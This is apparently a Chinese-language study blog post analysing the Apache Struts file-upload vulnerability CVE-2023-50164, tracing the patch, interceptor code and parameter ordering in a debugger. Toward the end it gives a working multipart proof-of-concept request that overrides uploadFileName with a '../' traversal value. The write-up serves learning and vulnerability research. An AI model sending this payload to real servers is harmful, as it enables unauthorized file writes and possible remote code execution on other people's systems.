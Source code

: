 ```yaml
---
title: 'CVE-2023-50164 漏洞分析与学习'
date: 2023-12-26 00:07:30
tags: [漏洞分析,CVE,java,笔记,学习笔记]
published: true
hideInList: false
feature: 
isTop: false
---
```



官方的主要修复有：

- **[Makes HttpParameters case-insensitive](https://github.com/apache/struts/commit/d8c69691ef1d15e76a5f4fcf33039316da2340b6)**


感觉有些点还没有细跟 比如ognl的部分，还有这部分的细节。先把学习了大佬们的博文后自己调了一遍+捋思维的过程记录下来吧。

根据测试用例来看, 之前的问题是大小写不敏感，是 `HttpParameters`类对新参数的处理出现了问题。

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225.png)

这里的分析思路学习的是 [trganda博客的思路](https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164))：

测试用例 → 定位类下某个方法( appendAll) → appendAll方法调用处 → 从调用处的几个函数中寻找可利用点，即文件上传。

其中appendAll方法调用处 有一处是涉及文件上传的， 这部分对应的是 `FileUploadInterceptor` 下的`intercept` 方法

```java
if (files != null && files.length > 0) {
                        List<UploadedFile> acceptedFiles = new ArrayList<>(files.length);
                        List<String> acceptedContentTypes = new ArrayList<>(files.length);
                        List<String> acceptedFileNames = new ArrayList<>(files.length);
                        String contentTypeName = inputName + "ContentType";
                        String fileNameName = inputName + "FileName";

for (int index = 0; index < files.length; index++) {
                            if (acceptFile(action, files[index], fileName[index], contentType[index], inputName, validation)) {
                                acceptedFiles.add(files[index]);
                                acceptedContentTypes.add(contentType[index]);
                                acceptedFileNames.add(fileName[index]);
                            }
                        }

                        if (!acceptedFiles.isEmpty()) {
                            Map<String, Parameter> newParams = new HashMap<>();
                            newParams.put(inputName, new Parameter.File(inputName, acceptedFiles.toArray(new UploadedFile[acceptedFiles.size()])));
                            newParams.put(contentTypeName, new Parameter.File(contentTypeName, acceptedContentTypes.toArray(new String[acceptedContentTypes.size()])));
                            newParams.put(fileNameName, new Parameter.File(fileNameName, acceptedFileNames.toArray(new String[acceptedFileNames.size()])));
                            ac.getParameters().appendAll(newParams);
                        }
                    }
```

这里我上传了一个文件 1.txt， 上传的包如图

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_1.png)

打断点进行代码分析`FileUploadInterceptor#intercept`， 这里看到， `inputName` 字段赋值到了两个变量： `contentTypeName` 和 `fileNameName` 。 然后这两个变量和 `inputName` 一同被put到了`newParams` (类型为Map<String, Parameter> 即 HashMap）

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_2.png)

这里 `ac.getParameters().appendAll(newParams);` 则是被调用点，ac是一个 `ActionInvocation`

```jsx
ActionContext ac = invocation.getInvocationContext();
```

这里，作为一枚java小白，恶补一下java知识之关于ActionInvocation的部分

> 在 Struts 2 框架中，ActionInvocation 是一个核心接口，它代表了一个动作的调用过程。其基本职责是控制动作（action）的执行流程。当一个动作被触发时，ActionInvocation 负责协调 Struts 2 框架各个部分的交互, 包括： 执行拦截器（interceptors）， 调用动作方法，结果处理
> 

现在这个`FileUploadInterceptor` 类就是一个Interceptors，来处理请求中的各类参数的喵

这里用户可控的 inputName （对应post传入的name="upload";）

其中， `fileName` 和 `contentType` `files`分别由`FileUploadInterceptor#intercept` 下列赋值语句获取

```java
String[] fileName = multiWrapper.getFileNames(inputName);
String[] contentType = multiWrapper.getContentTypes(inputName);
UploadedFile[] files = multiWrapper.getFiles(inputName);
```

以下是涉及这几个变量的代码片段截图

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_3.png)

其中 ``acceptFile` 是检查文件是否合法的（contentType和size两个方面，至于别的检查可以看参考/学习处的文章调试跟进，自己也调试着跟一下，排除了FileUploadInterceptor处的变量覆盖的可能性）这里

`multiWrapper.getFileNames(inputName)` 跟进是

```java
MultiPartRequestWrapper#getFileNames
JakartaStreamMultiPartRequest#getFileNames
AbstractMultiPartRequest#getCanonicalName

```

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_4.png)

这里限制了文件不能够目录遍历，即直接请求体构造filename是无效的(例如）：

```java
Content-Disposition: form-data; name="upload"; filename="../1.txt"
```

回到`FileUploadInterceptor`  继续分析这里用了一个遍历将文件信息放到了都放置到了变量   `acceptedFileNames`下。然后跟进到 `ac.getParameters().appendAll(newParams);`

这里 `getParameter`返回的是一个`HttpParameters` 类型。这里也没有发现可覆盖点，

那么在action下的对应函数方法进行断点：

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_5.png)

看调用栈，这里还能看到ognl     

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_6.png)

同时，IDEA调试知道 `com.opensymphony.xwork2.interceptor.ParametersInterceptor#setParameters`  会调用到`HttpParameters`  （这里ordered为false）

```java
protected void setParameters(final Object action, ValueStack stack, HttpParameters parameters) {
        HttpParameters params;
        Map<String, Parameter> acceptableParameters;
        if (ordered) {
            params = HttpParameters.create().withComparator(getOrderedComparator()).withParent(parameters).build();
            acceptableParameters = new TreeMap<>(getOrderedComparator());
        } else {
            params = HttpParameters.create().withParent(parameters).build();
            acceptableParameters = new TreeMap<>();
        }

		   ......
			addParametersToContext(ActionContext.getContext(), acceptableParameters);
    }
protected void addParametersToContext(ActionContext ac, Map<String, ?> newParams) {
    }
```

这里可以看到：

`acceptableParameters.put(parameterName, entry.getValue());` 是将HashMap数据结构下的元素转到TreeMap元素下，HashMap是无序数据结构，而TreeMap是基于红黑树实现的有序数据结构。

为了验证实际请求中 顺序产生了改变，这里发起一个构造的name大小写不一样的请求进行测试

测试的请求1:

请求内容：

```java
------WebKitFormBoundarylklKBmAwQQCsk4Ex
Content-Disposition: form-data; name="Upload"; filename="fiel1.txt"
Content-Type: text/plain

test value

------WebKitFormBoundarylklKBmAwQQCsk4Ex
Content-Disposition: form-data; name="upload"; filename="file2.txt"
Content-Type: text/plain

file2name
------WebKitFormBoundarylklKBmAwQQCsk4Ex--
```

断点： `com.opensymphony.xwork2.interceptor.ParametersInterceptor#setParameters`  可以看到TreeMap下是大写优先的

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_7.png)

那么只要不要让传入的参数走`FileUploadInterceptor`， 就可以摆脱文件上传目录的检查了。

另外加上通过改变 `upload` 的值为 uploadFilename 覆盖掉原本的（如图）文件上传目录，因为action的处理过程在`FileUploadInterceptor`之后。

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_8.png)

测试poc, poc内容：

```java
------WebKitFormBoundary3ks5NW13KTE8KAzk
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

1111

------WebKitFormBoundary3ks5NW13KTE8KAzk
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../success
------WebKitFormBoundary3ks5NW13KTE8KAzk--
```

`ParametersInterceptor`  下断点查看，在 `acceptableParameters` 下 大写在前

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_9.png)

这里for循环下打断点也可以看到是在`newStack.setParameter`   这里设置了action的（还用到了ognl）

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_10.png)

最后，在循环的最后，uploadFileName 被覆盖

![20231225](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_12/20231225_11.png)

## Reference

- [https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164)](https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164))
- [https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-文件上传分析-S2-066/](https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/)
- [https://xz.aliyun.com/t/13172](https://xz.aliyun.com/t/13172)